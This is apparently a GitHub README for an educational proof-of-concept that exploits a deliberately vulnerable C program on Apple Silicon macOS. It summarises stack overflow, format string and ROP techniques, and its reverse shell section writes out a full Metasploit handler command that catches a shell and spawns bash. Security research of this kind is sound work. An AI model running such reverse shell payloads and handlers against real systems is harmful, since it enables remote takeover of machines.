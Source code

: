 ## 📄 Project Overview

This repository contains the code and materials for the report titled “Exploiting Buffer Overflows on Apple M-Series Macs,” which demonstrates a proof-of-concept exploit on a vulnerable C program running on macOS (AArch64, Apple Silicon).

The exploit showcases:

- Stack-based buffer overflow
- Format string vulnerability
- ROP-based bypass of NX and ASLR
- Execution of payloads (Calculator, reverse shell)

> **Tested on:**
>
> - macOS Sequoia 15.5
> - Apple M3 MacBook Pro / M4 Mac mini
> - AArch64 (ARM64) architecture
> - ASLR / NX enabled (default security settings)

The report is included below for reference.

[📄 Download Report (PDF)](./report.pdf)

## ⚠ Disclaimer

This repository is intended for educational and research purposes only.  
The code demonstrates exploitation techniques in a controlled environment using an intentionally vulnerable binary.

**Use at your own risk.**  
The author is not responsible for any damage, misuse, or unintended consequences resulting from the use of this code.

Always review and understand the payloads and their effects before running them on any system.

## 🔧 Build Instructions

To compile the vulnerable binary (tested with Clang 17.0.0):

```
clang -o vulnerable main.c
```

## 🚀 Exploit Execution

To run the exploit (ensure Python 3 and pwntools are installed):

Install pwntools: `pip install pwntools`

```
python exploit.py
```

## 🛠 Reverse Shell Setup (optional)

To prepare a listener for the reverse shell payload, you need to have Metasploit Framework installed. Then, start msfconsole with the following command:

```
msfconsole -q -x "use exploit/multi/handler; \
  set payload osx/aarch64/shell_reverse_tcp; \
  set LHOST 127.0.0.1; \
  set LPORT 4444; \
  exploit -z; \
  sessions -1 -c \"python3 -c 'exec(\\\"\\\"\\\"import pty\npty.spawn(\\\"/bin/bash\\\")\\\"\\\"\\\")'\"; \
  sessions -1"
```

## 📝 License

This project is licensed under the [MIT License](./LICENSE).
